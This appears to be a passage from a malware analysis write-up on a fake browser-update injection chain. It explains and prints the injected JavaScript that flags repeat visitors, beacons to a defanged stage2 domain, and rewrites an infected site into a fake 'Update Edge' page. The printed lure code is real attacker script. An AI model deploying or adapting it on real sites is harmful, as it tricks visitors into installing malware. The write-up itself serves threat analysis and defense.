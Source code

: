 
### Fake Update Page

I'm going to go into detail in regard to the functionality of the update page - if you aren't interested, feel free to skip ahead.  
Starting with the first line of the function - it creates a variable (with a name value of the current domain) inside the local storage object and sets the value to "1". A previous script in the chain checked whether this variable existed, and if it did, stopped execution. This is another check to stop repeat visitors or security researchers from running through the infection chain multiple times.   
Then, set the domain variable to the domain used previously to fetch additional injected JS. Going forward, we'll refer to this domain as the stage2 domain.

The sendStatistics function is interesting, it creates a variable `i` of type `Image` and sets the src to the stage2 with the argument appended to it. We'll come back to this later.  

Next, a nested for loop removes several attributes from the document head and body, and right after this the innerHTML of the document head and body are hardcoded. Looking closely we can see strings referencing updates to the browser. Essentially what this does is remove all content from the infected site and replace it with the fake update graphics. This way, the domain in the browser search bar doesn't change and no "popups" or additional calls to external domains are needed to serve up the content. The goal of this behavior is to reduce suspicion by intended victims and make them think the website actually requires a browser update in order to function.  

```JS
(function() {
    window.localStorage[window.location.hostname] = 1;
    var domain = 'hxxps://taxes[.]rpacx[.]com/';

    function sendStatistics(type) {
        var i = new Image();
        i.src = domain + type;
    }
    var elems = [document.documentElement, document.head, document.body];
    var attrs = ['class', 'style', 'lang', 'id', 'dir'];
    for (var i = 0; i < elems.length; i++) {
        for (var j = 0; j < attrs.length; j++) {
            try {
                elems[i].removeAttribute(attrs[j]);
            } catch (e) {}
        }
    }
    document.head.innerHTML = '<meta http-equiv="content-type" content="text/html; charset=UTF-8">' + '<meta charset="utf-8">' + '<title>Update Edge</title>' + '<link href="' + domain + 'updateassets/css.css" rel="stylesheet">' + '<link href="' + domain + 'updateassets/favicon/edge.ico" rel="icon" type="image/ico">';
    document.body.innerHTML = '<div class="compact fatnav-header" id="header">' + ' <div class="g-section no-collapse">' + '  <div class="g-unit g-first" id="header-logo">' + '   <a href="#"><img id="logo" src="' + domain + 'updateassets/logo/edge.png"></a>' + '  </div>' + ' </div>' + '</div>' + '<div class="browser-landing" id="main">' + ' <div class="compact browser-benefits">' + '  <section id="marquee">' + '  <h1 id="main-title" tabindex="-1">You are using an older version of Edge</h1>' + '  <p class="browser-promo">Update now to keep your Edge browser running smoothly and securely.</p>' + '  <p class="browser-promo">Your download will begin automatically. If not, click here:</p>' + '  <a class="button eula-download-button download-button desktop-only hide-cros" href="javascript:void(0)">Update Edge</a>' + '  <img class="hi-dpi empty-area section-hero" src="' + domain + 'updateassets/img/edge.jpg">' + '  </section>' + ' </div>' + '</div>';
```    
